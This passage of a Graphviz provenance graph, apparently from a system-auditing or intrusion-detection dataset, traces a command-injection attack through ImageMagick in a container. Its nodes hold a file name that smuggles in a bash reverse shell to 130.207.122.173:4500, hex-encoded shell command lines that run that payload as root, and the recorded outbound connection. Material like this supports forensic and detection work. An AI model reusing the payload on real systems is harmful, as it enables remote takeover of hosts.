"cb9314d3157e9c31a1f9081b312cbf95" -> "0bdab3dd5e3eb3cca261287f617b4452" [label="(pid:29644\ntype:WasDerivedFrom\noperation:link)" color="orange" style="solid"];
"a45d464de6f4e9e1eef80b538c5fbcce" [label="\npath:/tmp/magick-pdsN6cyF\nsubtype:file\nCont_ID:251c24c6f483\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"a45d464de6f4e9e1eef80b538c5fbcce" -> "23e69b9b798030469463111b5a934028" [label="(type:WasGeneratedBy\noperation:create)" color="red" style="solid"];
"174d0325e164c3a632b9dae20075eea6" [label="\npath:/tmp/magick-RRglCsaP\nsubtype:file\nCont_ID:251c24c6f483\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"174d0325e164c3a632b9dae20075eea6" -> "23e69b9b798030469463111b5a934028" [label="(type:WasGeneratedBy\noperation:create)" color="red" style="solid"];
"6a65fc5e89ad3fcecaff674f6f6ba116" [label="\npath:/tmp/magick-rkO0YIMY\nsubtype:file\nCont_ID:251c24c6f483\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"6a65fc5e89ad3fcecaff674f6f6ba116" -> "23e69b9b798030469463111b5a934028" [label="(type:WasGeneratedBy\noperation:create)" color="red" style="solid"];
"485a082940c4c71250daeea79d57ff19" [label="\npath:/example.com/image.jpg'|setsid /bin/bash -i >/dev/tcp/130.207.122.173/4500 0<&1 2>&1 &'\nsubtype:file\nCont_ID:251c24c6f483\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"23e69b9b798030469463111b5a934028" -> "485a082940c4c71250daeea79d57ff19" [label="(type:Used\noperation:link_read)" color="green" style="solid"];
"6a65fc5e89ad3fcecaff674f6f6ba116" [label="\npath:/tmp/magick-rkO0YIMY\nsubtype:file\nCont_ID:251c24c6f483\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"6a65fc5e89ad3fcecaff674f6f6ba116" -> "23e69b9b798030469463111b5a934028" [label="(type:WasGeneratedBy\noperation:link_write)" color="red" style="solid"];
"6a65fc5e89ad3fcecaff674f6f6ba116" -> "485a082940c4c71250daeea79d57ff19" [label="(pid:29644\ntype:WasDerivedFrom\noperation:link)" color="orange" style="solid"];
"5bee1e686b493df819480b3caa544283" [label="\nuid:0\ngid:0\nCont_ID:251c24c6f483\nname:python\npid:298\ntype:Process\nppid:29644" shape="box" fillcolor="lightsteelblue1"];
"5bee1e686b493df819480b3caa544283" -> "23e69b9b798030469463111b5a934028" [label="(type:WasTriggeredBy\noperation:fork)" color="blue" style="solid"];
"ea8dc050595554b7ea82060823703baa" [label="\nuid:0\ngid:0\nCont_ID:251c24c6f483\npid:25992\ntype:Process\nppid:29635" shape="box" fillcolor="lightsteelblue1"];
"bf27a2eb9810103371594b9e48ef0937" [label="\ngid:0\nCont_ID:251c24c6f483\npid:25992\ntype:Process\ncommandline:sh -c 226375726C22202D73202D6B202D6F20222F746D702F6D616769636B2D6F2D6D557559567622202268747470733A2F2F6578616D706C652E636F6D2F696D6167652E6A7067227C736574736964202F62696E2F62617368202D69203E2F6465762F7463702F3133302E3230372E3132322E3137332F3435303020303C263120323E263120262222\nppid:29635\nuid:0\ncwd:/app\nname:sh" shape="box" fillcolor="lightsteelblue1"];
"bf27a2eb9810103371594b9e48ef0937" -> "ea8dc050595554b7ea82060823703baa" [label="(type:WasTriggeredBy\noperation:execve)" color="blue" style="solid"];
"26646dd15b2fda8802f5c941c5552875" [label="\npath:/usr/bin/bash\nsubtype:file\nCont_ID:251c24c6f483\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"bf27a2eb9810103371594b9e48ef0937" -> "26646dd15b2fda8802f5c941c5552875" [label="(type:Used\noperation:load)" color="green" style="solid"];
"225200f1b4b9d6d4d15cb79c26663d99" [label="\npath:/usr/lib64/ld-2.17.so\nsubtype:file\nCont_ID:251c24c6f483\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"bf27a2eb9810103371594b9e48ef0937" -> "225200f1b4b9d6d4d15cb79c26663d99" [label="(type:Used\noperation:load)" color="green" style="solid"];
"5e6870be5fae6ce6e3b2673f7af7dba7" [label="\npath:/etc/ld.so.cache\nsubtype:file\nCont_ID:251c24c6f483\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"bf27a2eb9810103371594b9e48ef0937" -> "5e6870be5fae6ce6e3b2673f7af7dba7" [label="(type:Used\noperation:open)" color="green" style="solid"];
"858ee160a059417b8c4eb884f859232c" [label="\npath:/usr/lib64/libtinfo.so.5.9\nsubtype:file\nCont_ID:251c24c6f483\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"bf27a2eb9810103371594b9e48ef0937" -> "858ee160a059417b8c4eb884f859232c" [label="(type:Used\noperation:open)" color="green" style="solid"];
"f908fc2999bb239bb3b29a937951e11f" [label="\npath:/usr/lib64/libdl-2.17.so\nsubtype:file\nCont_ID:251c24c6f483\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"bf27a2eb9810103371594b9e48ef0937" -> "f908fc2999bb239bb3b29a937951e11f" [label="(type:Used\noperation:open)" color="green" style="solid"];
"5df380cfe507cdc53b217d39e066feec" [label="\npath:/usr/lib64/libc-2.17.so\nsubtype:file\nCont_ID:251c24c6f483\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"bf27a2eb9810103371594b9e48ef0937" -> "5df380cfe507cdc53b217d39e066feec" [label="(type:Used\noperation:open)" color="green" style="solid"];
"c5af0c4f10c673782667cb8ee66e7245" [label="\npath:/proc/meminfo\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"bf27a2eb9810103371594b9e48ef0937" -> "c5af0c4f10c673782667cb8ee66e7245" [label="(type:Used\noperation:open)" color="green" style="solid"];
"8718571fbe2238af90e546bd40eedcb8" [label="\npath:/etc/nsswitch.conf\nsubtype:file\nCont_ID:251c24c6f483\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"bf27a2eb9810103371594b9e48ef0937" -> "8718571fbe2238af90e546bd40eedcb8" [label="(type:Used\noperation:open)" color="green" style="solid"];
"bf27a2eb9810103371594b9e48ef0937" -> "5e6870be5fae6ce6e3b2673f7af7dba7" [label="(type:Used\noperation:open)" color="green" style="solid"];
"ff3817052927d7a362d75f4de72bbbe4" [label="\npath:/usr/lib64/libnss_files-2.17.so\nsubtype:file\nCont_ID:251c24c6f483\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"bf27a2eb9810103371594b9e48ef0937" -> "ff3817052927d7a362d75f4de72bbbe4" [label="(type:Used\noperation:open)" color="green" style="solid"];
"6e547a41e41b66ca82e1e6844f80322a" [label="\npath:/etc/passwd\nsubtype:file\nCont_ID:251c24c6f483\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"bf27a2eb9810103371594b9e48ef0937" -> "6e547a41e41b66ca82e1e6844f80322a" [label="(type:Used\noperation:open)" color="green" style="solid"];
"2c334c06e05bb22b3787a3131e1c0f51" [label="\nuid:0\ngid:0\nCont_ID:251c24c6f483\nname:sh\npid:299\ntype:Process\ncommandline:sh -c 226375726C22202D73202D6B202D6F20222F746D702F6D616769636B2D6F2D6D557559567622202268747470733A2F2F6578616D706C652E636F6D2F696D6167652E6A7067227C736574736964202F62696E2F62617368202D69203E2F6465762F7463702F3133302E3230372E3132322E3137332F3435303020303C263120323E263120262222\nppid:25992" shape="box" fillcolor="lightsteelblue1"];
"2c334c06e05bb22b3787a3131e1c0f51" -> "bf27a2eb9810103371594b9e48ef0937" [label="(type:WasTriggeredBy\noperation:fork)" color="blue" style="solid"];
"1d6406a0502bc9f1a8041eacd4034912" [label="\nuid:0\ngid:0\nCont_ID:251c24c6f483\nname:sh\npid:300\ntype:Process\ncommandline:sh -c 226375726C22202D73202D6B202D6F20222F746D702F6D616769636B2D6F2D6D557559567622202268747470733A2F2F6578616D706C652E636F6D2F696D6167652E6A7067227C736574736964202F62696E2F62617368202D69203E2F6465762F7463702F3133302E3230372E3132322E3137332F3435303020303C263120323E263120262222\nppid:25992" shape="box" fillcolor="lightsteelblue1"];
"1d6406a0502bc9f1a8041eacd4034912" -> "bf27a2eb9810103371594b9e48ef0937" [label="(type:WasTriggeredBy\noperation:fork)" color="blue" style="solid"];
"5e489e6fae63eb7b0ba87dacd20ac4cc" [label="\nuid:0\ngid:0\nCont_ID:251c24c6f483\nname:sh\npid:301\ntype:Process\ncommandline:sh -c 226375726C22202D73202D6B202D6F20222F746D702F6D616769636B2D6F2D6D557559567622202268747470733A2F2F6578616D706C652E636F6D2F696D6167652E6A7067227C736574736964202F62696E2F62617368202D69203E2F6465762F7463702F3133302E3230372E3132322E3137332F3435303020303C263120323E263120262222\nppid:25992" shape="box" fillcolor="lightsteelblue1"];
"5e489e6fae63eb7b0ba87dacd20ac4cc" -> "bf27a2eb9810103371594b9e48ef0937" [label="(type:WasTriggeredBy\noperation:fork)" color="blue" style="solid"];
"36199b5ac06b96360ba9c17b8374da44" [label="\nuid:0\ngid:0\nCont_ID:251c24c6f483\npid:25993\ntype:Process\nppid:25992" shape="box" fillcolor="lightsteelblue1"];
"0362b832f58e90340a82536fb91ad9ce" [label="\ngid:0\nCont_ID:251c24c6f483\npid:25993\ntype:Process\ncommandline:curl -s -k -o /tmp/magick-o-mUuYVv https://example.com/image.jpg\nppid:25992\nuid:0\ncwd:/app\nname:curl" shape="box" fillcolor="lightsteelblue1"];
"0362b832f58e90340a82536fb91ad9ce" -> "36199b5ac06b96360ba9c17b8374da44" [label="(type:WasTriggeredBy\noperation:execve)" color="blue" style="solid"];
"6740c43b9bcbb8bb038c2abc1cdcca53" [label="\npath:/usr/bin/curl\nsubtype:file\nCont_ID:251c24c6f483\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"0362b832f58e90340a82536fb91ad9ce" -> "6740c43b9bcbb8bb038c2abc1cdcca53" [label="(type:Used\noperation:load)" color="green" style="solid"];
"0362b832f58e90340a82536fb91ad9ce" -> "225200f1b4b9d6d4d15cb79c26663d99" [label="(type:Used\noperation:load)" color="green" style="solid"];
"0362b832f58e90340a82536fb91ad9ce" -> "5e6870be5fae6ce6e3b2673f7af7dba7" [label="(type:Used\noperation:open)" color="green" style="solid"];
"ad5d13b45b0e3d3713b74c198f7b91dc" [label="\npath:/usr/lib64/libcurl.so.4.3.0\nsubtype:file\nCont_ID:251c24c6f483\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"0362b832f58e90340a82536fb91ad9ce" -> "ad5d13b45b0e3d3713b74c198f7b91dc" [label="(type:Used\noperation:open)" color="green" style="solid"];
"3e9b7c708c8359e52f82de0e5a036a4d" [label="\npath:/usr/lib64/libssl3.so\nsubtype:file\nCont_ID:251c24c6f483\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"0362b832f58e90340a82536fb91ad9ce" -> "3e9b7c708c8359e52f82de0e5a036a4d" [label="(type:Used\noperation:open)" color="green" style="solid"];
"1e27a3fc03d532ba101f3223099c4eee" [label="\npath:/usr/lib64/libsmime3.so\nsubtype:file\nCont_ID:251c24c6f483\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"0362b832f58e90340a82536fb91ad9ce" -> "1e27a3fc03d532ba101f3223099c4eee" [label="(type:Used\noperation:open)" color="green" style="solid"];
"23e69b9b798030469463111b5a934028" -> "0bdab3dd5e3eb3cca261287f617b4452" [label="(type:Used\noperation:open)" color="green" style="solid"];
"23e69b9b798030469463111b5a934028" -> "cb9314d3157e9c31a1f9081b312cbf95" [label="(type:Used\noperation:open)" color="green" style="solid"];
"c3cb9056f29a22e5ceae758a1ee57931" [label="\npath:/usr/lib64/libnss3.so\nsubtype:file\nCont_ID:251c24c6f483\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"0362b832f58e90340a82536fb91ad9ce" -> "c3cb9056f29a22e5ceae758a1ee57931" [label="(type:Used\noperation:open)" color="green" style="solid"];
"3b375340f4180ff8c2b8cebc6e39dca3" [label="\nuid:0\ngid:0\nCont_ID:251c24c6f483\nname:sh\npid:25994\ntype:Process\nppid:29607" shape="box" fillcolor="lightsteelblue1"];
"73924f6f60138069d25769435b0cfaad" [label="\nsource address:\nsubtype:network\ntype:Artifact\nsource port:\ndestination port:4500\nversion:0\ndestination address:130.207.122.173" shape="diamond" fillcolor="palegreen1"];
"73924f6f60138069d25769435b0cfaad" -> "3b375340f4180ff8c2b8cebc6e39dca3" [label="(type:WasGeneratedBy\noperation:connect)" color="red" style="solid"];
"a8eeddb5154323427f2e732e379cc7fe" [label="\npath:/usr/lib64/libnssutil3.so\nsubtype:file\nCont_ID:251c24c6f483\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"0362b832f58e90340a82536fb91ad9ce" -> "a8eeddb5154323427f2e732e379cc7fe" [label="(type:Used\noperation:open)" color="green" style="solid"];
"6c5025458430b1c112560f090a10380a" [label="\npath:/usr/lib64/libplds4.so\nsubtype:file\nCont_ID:251c24c6f483\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"0362b832f58e90340a82536fb91ad9ce" -> "6c5025458430b1c112560f090a10380a" [label="(type:Used\noperation:open)" color="green" style="solid"];
"d162ae05a99a4303b4b71ba4a17457fc" [label="\npath:/usr/lib64/libplc4.so\nsubtype:file\nCont_ID:251c24c6f483\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"0362b832f58e90340a82536fb91ad9ce" -> "d162ae05a99a4303b4b71ba4a17457fc" [label="(type:Used\noperation:open)" color="green" style="solid"];
"044ae9a35fa1e5fa87159acf1a9e0093" [label="\npath:/usr/lib64/libnspr4.so\nsubtype:file\nCont_ID:251c24c6f483\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"0362b832f58e90340a82536fb91ad9ce" -> "044ae9a35fa1e5fa87159acf1a9e0093" [label="(type:Used\noperation:open)" color="green" style="solid"];
}
